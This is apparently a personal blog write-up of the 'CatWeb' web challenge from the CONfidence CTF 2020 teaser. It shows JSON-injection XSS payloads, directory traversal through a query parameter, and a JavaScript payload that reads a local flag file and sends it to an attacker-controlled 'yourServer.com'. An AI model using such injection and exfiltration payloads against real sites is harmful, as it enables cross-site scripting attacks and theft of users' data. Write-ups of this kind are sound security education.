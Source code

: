 ```yaml
---
title : "CONfidence 2020: CatWeb"
date : 2020-04-23T00:46:19-06:00
draft : false
author : "JamVie"
cover : "img/CONfidenceCover.png"
tags : ["writeups", "web"]
images: ["img/CONfidenceCover.png"]
---
```


I participated in CONfidence CTF 2020 teasers in March of this year. I was focusing mainly on this problem, and it really helped me broaden my skills in JSON-related attacks! I have never seen many JSON injections before this, so this was welcome practise. 
<!--more-->

Let's Begin!
----
The link to the webpage is: ```http://catweb.zajebistyc.tf/```

{{< image src="/images/CatWeb_HomePage.png" alt="Login" position="center" style="border-radius: 8px;" >}}

We have a basic webpage with photos of cute cats filtered by their color. The drop down menu will give us black, red, grey and white cats. At the bottom is a report button, which will take whatever input we get, send it to some server, and respond to us that our report has been...well. Reported. 


Checking out the response content as I was clicking about the page showed me the requests for the "kind" (colour) of cats I chose based on the drop down menu. The request was just a small JSON string stipulating what kind I asked for, and I guess the server takes that input and returns whatever. 

```
curl "http://catweb.zajebistyc.tf/cats?kind=grey"
```

That got me thinking, can I ask for cats of a kind not in the drop down menu? 
Editing the request to change the kind from a colour to just absolute garbage...

```
curl "http://catweb.zajebistyc.tf/?kind=djfa"
```

{{< image src="/images/NotFound.png" alt="Login" position="center" style="border-radius: 8px;" >}}

Aha! Our text got echoed back to us in the response. There isn't any input validation in the JSON request! This must be a way in. 

To test how far I could go with it, I decided to hide an XSS in the JSON, seeing as how the URL we are taken to after any sort of response also has the JSON text in it. 

I typed this in as the URL:

```
http://catweb.zajebistyc.tf/?","status":"ok","content":["\"<img src=deadbeef onerror=alert(document.title)> </img>],"ignore":"
```

If there was a JSON vulnerability here, then going to this website would load up an alert with the title of the webpage ("my cats"). What would happen is it would attempt to load an image from the source called "deadbeef", and when it can't find the source, it would load as an error. If the image loaded as an error, pop up an alert with the name of the webpage. 


{{< image src="/images/XSSJsonInCatWeb.png" alt="Login" position="center" style="border-radius: 8px;" >}}


:) Great! There is definitely JSON injection in play here. Let's see what we can do with it! 

Using curl to delve deeper into the webpage, I tried to make it list directories with the command: 

```
curl "http://catweb.zajebistyc.tf/cats?kind=.."
```

{{< image src="/images/CatWebTemplates.jpg" alt="Login" position="center" style="border-radius: 8px;" >}}

I traversed through the directories, but in the templates subfolder...


{{< image src="/images/CatWebFlagLocn.png" alt="Login" position="center" style="border-radius: 8px;" >}}


Aha! The ```flag.txt``` file is in there. Now we just need to somehow read it from the browser. The fact that I was able to find the local files like this means something: the path of templates looks alot like ```file:///app/templates/flag.txt``` - Note the root path name: file. A same-origin policy here could treat all files with this starting origin as from the same place. 

We can use this to our advantage: create an XSS attack on the ```file://``` path.

Since an XSS endpoint was found using the JSON vulnerabilities in the URL, and there exists a report function, this is all a pretty classic XSS attack from here.


Craft our payload script to fetch the flag.txt from ```file://```. Here's mine called (xss.js):

```javascript
url='http://yourServer.com/6060?'
fetch('file:///app/templates/flag.txt').then(resp=>resp.text()).then(flag=>fetch(url+(btoa(flag) || 'Nothing')));
```


Report this url with our payload in it:

```
file:///app/templates/index.html?", "status": "ok", "content":["\u0022><script src=http://yourServer.com:6060/xss.js></script>"],"ignore":"
```

Now we wait for our server to retrieve the flag for us once someone checks out our reported URL :)

```flag:p4{can_i_haz_a_piece_of_flag_pliz?}```


This was a cool challenge to do that really helped me stretch my XSS skills and teach me how to be thorough when scoping out webpages for possible XSS attacks. I quite enjoyed this challenge! Thank you to [P4](https://p4.team/) for hosting the CONfidence 2020 teaser :) 


Jam 


References
----
feature image credit: [Peng Louis](https://www.pexels.com/@peng-louis-587527) on Pexels